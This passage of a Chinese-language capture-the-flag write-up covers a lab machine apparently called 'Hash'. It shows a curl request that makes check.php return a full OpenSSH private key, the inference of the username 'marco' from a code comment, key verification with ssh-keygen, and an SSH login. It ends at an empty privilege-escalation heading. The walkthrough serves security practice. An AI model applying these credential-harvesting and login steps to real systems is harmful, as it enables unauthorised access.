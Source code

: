 ```bash
┌──(kali㉿kali)-[~/temp/Hash]
└─$ curl -s http://$IP/check.php -d "password=34250003024812"

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAxiKdFmWJiVfVYaNGov1xuh0/nrXnNsx2s6g5IoIJrmkX+9qzt2US
ZWMgrjLzAyB3wrLFysCPh4F8GU87pJkbpc0prM/8vB2WJCg5ktDQ6o0vwH219sPKUS4e9R
s2bPz7CJX5bzFDQ3B6ZUOs1itZ1t/uq38XuCxDjI8XxU6fusB3Rjz2XIombtFwo78W1pkX
VnQhzZOQ+b8UaC5lZeKatcZ0xdc0iQgiAbcRN7sXYCDMxMmo9KsxqzWjd56hLrv1nsTy2t
VBXzDRw+5JU4AJlGDRB/Upq/oKbGDCOmgNUsJPQKW4TgEAWhUa+t/ue2Bs/wFjCY7w/LkY
pK4bnY5eHQAAA8C/pv23v6b9twAAAAdzc2gtcnNhAAABAQDGIp0WZYmJV9Vho0ai/XG6HT
+etec2zHazqDkiggmuaRf72rO3ZRJlYyCuMvMDIHfCssXKwI+HgXwZTzukmRulzSmsz/y8
HZYkKDmS0NDqjS/AfbX2w8pRLh71GzZs/PsIlflvMUNDcHplQ6zWK1nW3+6rfxe4LEOMjx
fFTp+6wHdGPPZciiZu0XCjvxbWmRdWdCHNk5D5vxRoLmVl4pq1xnTF1zSJCCIBtxE3uxdg
IMzEyaj0qzGrNaN3nqEuu/WexPLa1UFfMNHD7klTgAmUYNEH9Smr+gpsYMI6aA1Swk9Apb
hOAQBaFRr63+57YGz/AWMJjvD8uRikrhudjl4dAAAAAwEAAQAAAQEAlMcLA/VMmGfu33kW
Im+DRUiPLCLVMo3HmFH6TRIuKNvbWY+4oT5w2NbdhFDXr4Jiyz0oTn3XiN3PDMY1N/yMCS
0MXSp0UeE5i3709Gx+Y5GOyNDcoSYVtm2Wa2B6ts4jxievfDIWmv5LudxeXReCR1oxQm+V
pQL/2fzc0ZifUj+/VSSIltgDKHxEfebfK0xShgXTSlUhickSapre2ArSdplM/rYvZLDWmd
iGkGD3VnAgRtloy5v32vPI3M++OCrHbLxgff4odAjawejPPHVj3beMgCrqwb/CCNKEyWKc
Jkjjt7nY/GUW4RfzM34LplezpmvrsLkTVMAb3KflDkDPFQAAAIBrP6Pnz0t8d/M+4hEb66
IkrftwqMC+c8Z0HMGURTMco7jXfoXaVP3eWCafEZ/RobZm0Ob1mnBZ574Qn8ai5VLPyJz6
5Ibe1Z6LWu6yCL/VFNyksnVARIuVjQt9pXpzbXOfn0H4ZHRBFyRhNHGjnft1PA59O30Dpw
UVz9eO3K2EqQAAAIEA4baQFa4RYnZ/YK4F6acjsAPhk88poLjDT86eCQ08wO5+d8BGuSHE
+BAqCZJuJTvvozYpZ5NFW4OEG9+T/HX2tvB6Ucc1pbQNNnB7CBp/VoLLTW+nuU3YJbgYlx
VnWRRudD6K7wjZEHJ44XzLdTy2wyeUvZw/iJRZmqQ5hxXCD1MAAACBAOC4ucZotWaq/pb5
V5RqLV8HU+DWFHAIfvqtYI5wCcZmAjGtXgLF1HY9MZ3bRPz2/m7cB44cdgCRbtmqBvnOvn
6h9AS4gr1HOJEpjgohkxBTc2Mf/dpCCdcNCX2Xy5ExPSilbS2rUHHCIU2J/yZGTths8fBR
cEjmSYvt0qFY/t7PAAAACm1hcmNvQGhhc2g=
-----END OPENSSH PRIVATE KEY-----
```

尝试利用这个凭证进行登录，但是发现不知道用户名，还是得信息搜集。

注意到前面有一个注释是这么写的`//marco please dont use md5, is not secure.`，有没有可能用户名就是这个`marco`，解一下这个`id_rsa`看看对不对：

```bash
┌──(kali㉿kali)-[~/temp/Hash]
└─$ ssh-keygen -y -f id_rsa
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGIp0WZYmJV9Vho0ai/XG6HT+etec2zHazqDkiggmuaRf72rO3ZRJlYyCuMvMDIHfCssXKwI+HgXwZTzukmRulzSmsz/y8HZYkKDmS0NDqjS/AfbX2w8pRLh71GzZs/PsIlflvMUNDcHplQ6zWK1nW3+6rfxe4LEOMjxfFTp+6wHdGPPZciiZu0XCjvxbWmRdWdCHNk5D5vxRoLmVl4pq1xnTF1zSJCCIBtxE3uxdgIMzEyaj0qzGrNaN3nqEuu/WexPLa1UFfMNHD7klTgAmUYNEH9Smr+gpsYMI6aA1Swk9ApbhOAQBaFRr63+57YGz/AWMJjvD8uRikrhudjl4d marco@hash
```

发现正确，尝试登录：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506112236457.png" alt="image-20250611195111367" style="zoom:50%;" />

## 提权
